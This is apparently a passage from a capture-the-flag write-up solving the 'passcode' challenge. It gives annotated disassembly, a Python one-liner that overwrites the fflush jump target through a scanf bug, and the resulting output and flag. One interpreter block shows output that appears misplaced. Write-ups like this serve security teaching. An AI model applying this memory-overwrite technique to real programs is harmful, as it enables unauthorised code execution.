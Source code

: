 And recall, our check and system call:

```
   0x080485c5 <+97>:	cmp    DWORD PTR [ebp-0x10],0x528e6     ; passcode1==338150
   0x080485cc <+104>:	jne    0x80485f1 <login+141>            ; ... fail if not, else continue to
   0x080485ce <+106>:	cmp    DWORD PTR [ebp-0xc],0xcc07c9     ; passcode2==13371337
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>            ; ... fail+return to printf+quit
   0x080485d7 <+115>:	mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>           ; shell to system
```

So, when we call "fflush", we want to put a value into it such that we jump straight to the inside of the "good" if block.

`0x080485d7` seems like a good candidate to write to the address that gets jumped to when we interpret fflush (right after we've satisfied both the == checks):

```
>>> 0x080485d7
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)
134514135
```

So:
```
python -c "print 96*'A'+'\x04\xa0\x04\x08'+'134514135'" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
enter passcode1 : Login OK!
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)
```

Bingo, flag is: `Sorry mom.. I got confused about scanf usage :(`.

